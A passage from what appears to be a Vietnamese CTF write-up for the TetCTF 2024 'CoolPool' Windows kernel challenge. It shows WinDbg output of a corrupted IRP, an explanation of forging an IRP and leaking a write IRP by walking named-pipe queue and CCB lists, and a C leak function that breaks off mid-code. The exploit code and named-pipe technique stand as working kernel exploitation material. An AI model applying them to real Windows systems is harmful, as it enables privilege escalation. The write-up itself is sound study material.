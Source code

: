 Copy

```
0: kd> dt _IRP ffffc88527d178a0 AssociatedIrp
nt!_IRP
   +0x018 AssociatedIrp : <anonymous-tag>
0: kd> dx -id 0,0,ffffc8852349c040 -r1 (*((ntkrnlmp!_IRP *)0xffffc88527d178a0)).AssociatedIrp
(*((ntkrnlmp!_IRP *)0xffffc88527d178a0)).AssociatedIrp                 [Type: <anonymous-tag>]
    [+0x000] MasterIrp        : 0xffffc88528cc8000 [Type: _IRP *]
    [+0x000] IrpCount         : 684490752 [Type: long]
    [+0x000] SystemBuffer     : 0xffffc88528cc8000 [Type: void *]
0: kd> dx -id 0,0,ffffc8852349c040 -r1 ((ntkrnlmp!_IRP *)0xffffc88528cc8000)
((ntkrnlmp!_IRP *)0xffffc88528cc8000)                 : 0xffffc88528cc8000 [Type: _IRP *]
    [<Raw View>]     [Type: _IRP]
    IoStack          : Size = 97, Current {...}
    CurrentStackLocation : 0x6161616161616161 [Type: _IO_STACK_LOCATION *]
    CurrentThread    : 0x6161616161616161 [Type: _ETHREAD *]

```

*IRP Write**lúc này đã chứa một IRP nhỏ bên trong, vậy thì mình sẽ copyIRP Writevề và sửa đổi một chút sau đó thì tận dụng sự lồng chéo nhau này mình sẽ lại đưa được*`ForgeIRP`*lên Kernel Memory*

Tiếp theo sẽ là câu hỏi làm thế nào để leak được IRP Write bây giờ, mình sẽ tìm nó ở đâu

### [](https://dungnm.hashnode.dev/pwn-coolpool-tetctf2024#heading-leak-irp "Permalink")Leak IRP

Nhìn lại cấu trúc của một Queue trong NamedPipe

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1706983667680/3d5974a2-cb84-44ca-bac5-a9d0f49b9cc5.png?auto=compress,format&format=webp)

Khi chúng ta tạo ra 2 pipe thì lúc này 2 Control Context Block của chúng sẽ liên kết với nhau , và trong Queue thì các entry cũng liên kết với nhau như vậy, vậy thì dựa vào sự liên kết này chúng ta sẽ loop tất cả Control Context Block và loop tất cả Entry để tìm IRP Write thì chắc chắn sẽ thành công

Và cũng cách tương tự mình sẽ dùng này để loop liên tục tìm được Control Context Block của Pipe mà mình đang sử dụng để đọc và ghi tùy ý

Nhưng có thể bạn vẫn nhớ tới phần "Đọc chỗ nào bây giờ ?" trong bài và mình có bảo các bạn thiết kế một layout như thế này

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1706732097775/049dc168-9ae4-4da7-844c-6ebd1078a101.png)

Khi chúng ta đã đọc được Npfs Object bên dưới thì chúng ta sẽ dựa vào Object này rồi Loop như mình nói bên trên để tìm lại tất cả những Entry trong Kernel.

Copy

Copy

```
ULONG64 leakNewIrp() {
    printf("[+]Entry %llx %llx\n", g_queue_entry.Flink, g_queue_entry.Blink);

    if (g_queue_entry.Flink != g_queue_entry.Blink && g_queue_entry.Flink > 0) {
        printf("[-]Failed to create Hole\n");
        return NULL;
    }

    ULONG64 CcbBase, stop, ret_value = 0;
    LIST_ENTRY64 ccb_entry;
    int max;
    CcbBase = g_queue_entry.Flink - 0xA8; // OFFSET from Queue ListEntry to CCB Base
    leakMem(ULONG64(CcbBase + 0x18), 0x10, (UCHAR*)&ccb_entry); // leak Queue Address

    max = 0;
    stop = ccb_entry.Blink;
```